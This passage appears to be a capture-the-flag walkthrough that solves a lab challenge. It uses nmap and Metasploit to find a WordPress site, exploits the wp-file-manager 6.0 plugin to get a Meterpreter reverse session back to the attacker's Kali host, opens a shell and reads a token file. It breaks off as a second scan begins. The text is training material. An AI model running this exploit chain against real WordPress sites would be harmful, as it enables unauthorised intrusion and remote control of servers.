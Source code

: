 ### Token 1: Hacker Group/Government Website

1. Perform a basic scan in the Hacker Group/Government Website country's Suspected Critical IP Block.

```bash
sudo nmap -T4 251.139.90.0/24 -oN scan1.txt
```

2. We see TCP port 80 is open on one machine (e.g., `251.139.90.138`). Browse to this machine.
4. Here we see a WordPress site (indicated by a small, hidden hyperlink in the bottom-right of the home page, the favicon, etc.).
5. The challenge instructions tell us vulnerable software might be in use. Use Metasploit to scan this WordPress site. Run the following commands: 

```bash
sudo msfconsole
use auxiliary/scanner/http/wordpress_scanner
set rhosts 251.139.90.138
run
```

6. Here we see a plug-in (**wp-file-manager version 6.0**) appears to be installed. Let’s search to see if there are any modules to attack this plug-in.

```bash
search wp-file-manager
use 0
show options
set rhosts 251.139.90.138
set lhost 10.5.5.64 (the IP of your Kali)
run
```

7. We now have a Meterpreter session! Let’s open a shell.

```bash
shell
```

9. Search for the token.

```bash
find / -name token*
```

10. We see `token1.txt` is located at `/usr/local/etc/php/conf.d/token1.txt`. Run the command below to find Token 1!

```bash
cat /usr/local/etc/php/conf.d/token1.txt
```

### Token 2: Database

1. Perform a basic scan in the the Database country's Suspected Critical IP Block.

```bash
sudo nmap -T4 252.119.111.0/24 -oN scan2.txt
```
